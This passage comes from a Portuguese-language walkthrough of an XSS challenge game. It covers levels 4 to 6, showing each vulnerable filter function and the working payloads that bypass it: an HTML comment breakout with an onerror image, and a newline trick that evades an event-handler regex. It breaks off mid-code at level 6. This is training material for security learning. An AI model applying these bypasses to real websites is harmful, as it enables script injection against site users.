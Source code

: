 ```
function escape(input) {
    // filter potential comment end delimiters
    input = input.replace(/->/g, '_');

    // comment the input to avoid script execution
    return '<!-- ' + input + ' -->';
}        
```

Ele impede o uso de comentários HTML. A solução utilizada para essa questão foi a seguinte:

`--!><img src = 1 onerror = prompt(1)`

Ele basicamente finaliza o comentário dentro do código utilizando `--!>`

[![Print5.png](https://i.postimg.cc/Gp5yBKD0/Print5.png)](https://postimg.cc/8FL59hww)

### Level 5

Aqui está o enunciado do nível 5:

```
function escape(input) {
    // apply strict filter rules of level 0
    // filter ">" and event handlers
    input = input.replace(/>|on.+?=|focus/gi, '_');

    return '<input value="' + input + '" type="text">';
}      
```

Para esse nível, o regex tenta bloquear `>` e `eventos`, como o `onerror` por exemplo. Para essa questão, utilizaremos uma quebra de linha visto que o código não impede. Assim ficou o payload:

```
"type=image src onerror
="prompt(1)
```

[![Print6.png](https://i.postimg.cc/PrDs05y1/Print6.png)](https://postimg.cc/JGR2km9h)

### Level 6

Aqui está o enunciado do nível 6:

```
function escape(input) {
    // let's do a post redirection
    try {
        // pass in formURL#formDataJSON
        // e.g. http://httpbin.org/post#{"name":"Matt"}
        var segments = input.split('#');
        var formURL = segments[0];
        var formData = JSON.parse(segments[1]);

        var form = document.createElement('form');
        form.action = formURL;
        form.method = 'post';

        for (var i in formData) {
            var input = form.appendChild(document.createElement('input'));
            input.name = i;
            input.setAttribute('value', formData[i]);
        }

        return form.outerHTML + '                         \n\
<script>                                                  \n\
    // forbid javascript: or vbscript: and data: stuff    \n\
```